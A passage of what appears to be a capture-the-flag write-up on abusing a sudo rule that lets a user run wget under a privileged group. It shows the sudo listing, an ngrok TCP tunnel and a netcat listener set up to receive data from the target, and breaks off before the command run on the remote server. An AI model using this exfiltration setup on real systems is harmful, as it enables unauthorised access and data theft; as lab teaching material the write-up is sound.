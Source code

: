 Here, this is a misconfigured sudo:

```bash
$ sudo -l 
[sudo] password for puppet-master: puppet-master
Matching Defaults entries for puppet-master on 2a87f3ade358:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    lecture=never

User puppet-master may run the following commands on 2a87f3ade358:
    (puppet-master : zetatech-maintenance) /usr/bin/wget
```

Most of the time, the user can run a command as root without password. In this case, the vulnerability comes with the `zetatech-maintenance` group.

What could happen if we execute command with this group? We will getting group right :D

### Exploit

I don't have my VPS under my hand, then I will use `ngrok`, it allows us to open a port through their server and listen / send data on it: https://ngrok.com/

It works like that (picture from their official website):


![](https://ngrok.com/static/img/demo.png)


1. First localhost terminal:

```bash
$ ngrok tcp 1223
[...]
Web interface 
http://127.0.0.1:4040

Forwarding
tcp://0.tcp.ngrok.io:15462 -> localhost:1223        
[...]      
```

2. Second local host terminal

```bash
$ ping 0.tcp.ngrok.io                        
PING 0.tcp.ngrok.io (52.15.72.79) 56(84) bytes of data.
^C
--- 0.tcp.ngrok.io ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms

$ nc -lvp 1223       
Listening on [0.0.0.0] (family 0, port 1223)
```

3. On remote server terminal
